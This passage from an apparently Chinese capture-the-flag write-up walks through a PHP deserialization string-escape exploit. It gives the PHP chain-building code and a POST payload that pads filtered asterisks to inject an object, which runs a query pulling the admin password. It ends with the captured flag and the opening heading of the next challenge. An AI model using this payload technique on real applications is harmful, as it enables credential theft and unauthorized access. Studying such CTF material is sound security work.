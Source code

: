 ```
        $this-&gt;age='select password,id from user where username="admin"';
    `}`
`}`
Class UpdateHelper`{`
    public $sql;

    public function __construct()`{`
        $this-&gt;sql= new User();
    `}`
`}`

$a = new UpdateHelper();

// echo serialize($a);

$res = '";s:8:"CtrlCase";' . serialize($a) . '`}`' . "n";

echo $res;

//";s:8:"CtrlCase";O:12:"UpdateHelper":1:`{`s:3:"sql";O:4:"User":2:`{`s:8:"nickname";O:4:"Info":1:`{`s:8:"CtrlCase";O:6:"dbCtrl":1:`{`s:5:"token";s:5:"admin";`}``}`s:3:"age";s:51:"select password,id from user where username="admin"";`}``}``}`

```

这个`payload`一个222个字符。一个`*`被过滤成`hacker`后可以挤出5个字符，选择44个`*`和三个`union`，最终组成了`payload`

```
age=1&amp;nickname=********************************************unionunion";s:8:"CtrlCase";O:12:"UpdateHelper":1:`{`s:3:"sql";O:4:"User":2:`{`s:8:"nickname";O:4:"Info":1:`{`s:8:"CtrlCase";O:6:"dbCtrl":1:`{`s:5:"token";s:5:"admin";`}``}`s:3:"age";s:51:"select password,id from user where username="admin"";`}``}``}`

```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/24/330qqH.png)

在线解码就可以得到管理员的密码，登陆就i可以得到`flag`了

```
flag`{`aa934a2e-666f-4669-bf94-1e6c6e6d9397`}`
```



## DAY2

### <a class="reference-link" name="easysqli_copy"></a>easysqli_copy

打开题目，发现给出了源码：
